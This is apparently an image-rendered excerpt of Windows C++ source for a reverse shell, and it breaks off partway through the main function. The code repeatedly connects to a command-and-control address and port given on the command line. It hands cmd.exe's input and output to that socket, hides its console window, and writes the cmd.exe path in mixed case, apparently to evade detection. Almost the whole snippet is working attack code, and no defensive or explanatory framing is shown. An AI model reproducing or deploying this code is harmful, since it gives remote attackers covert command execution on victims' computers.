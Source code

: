 ```cpp
        Sleep(5000);    // 1000 = One Second 

        SOCKET mySocket; 
        sockaddr_in addr; 
        WSADATA version; 
        WSAStartup(MAKEWORD(2,2), &version); 
        mySocket = WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL); 
        addr.sin_family = AF_INET; 

        addr.sin_addr.s_addr = inet_addr(C2Server);  //IP received from main function 
        addr.sin_port = htons(C2Port);     //Port received from main function 

        //Connecting to Proxy/ProxyIP/C2Host 
        if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), NULL, NULL, NULL, NULL)==SOCKET_ERROR) { 
            closesocket(mySocket); 
            WSACleanup(); 
            continue; 
        } 
        else { 
            char RecvData[DEFAULT_BUFLEN]; 
            memset(RecvData, 0, sizeof(RecvData)); 
            int RecvCode = recv(mySocket, RecvData, DEFAULT_BUFLEN, 0); 
            if (RecvCode <= 0) { 
                closesocket(mySocket); 
                WSACleanup(); 
                continue; 
            } 
            else { 
                char Process[] = "c:\\WiNdOWs\\SyStEm32\\cMd.exE"; 

                STARTUPINFO sinfo; 
                PROCESS_INFORMATION pinfo; 
                memset(&sinfo, 0, sizeof(sinfo)); 
                sinfo.cb = sizeof(sinfo); 
                sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW); 
                sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket; 
                CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo); 
                WaitForSingleObject(pinfo.hProcess, INFINITE); 
                CloseHandle(pinfo.hProcess); 
                CloseHandle(pinfo.hThread); 

                memset(RecvData, 0, sizeof(RecvData)); 
                int RecvCode = recv(mySocket, RecvData, DEFAULT_BUFLEN, 0); 
                if (RecvCode <= 0) { 
                    closesocket(mySocket); 
                    WSACleanup(); 
                    continue; 
                } 
                if (strcmp(RecvData, "exit\n") == 0) { 
                    exit(0); 
                } 
            } 
        } 
    } 
} 
//----------------------------------------------------------- 
//----------------------------------------------------------- 
//----------------------------------------------------------- 
int main(int argc, char **argv) { 
    FreeConsole(); 
    if (argc == 3) { 
```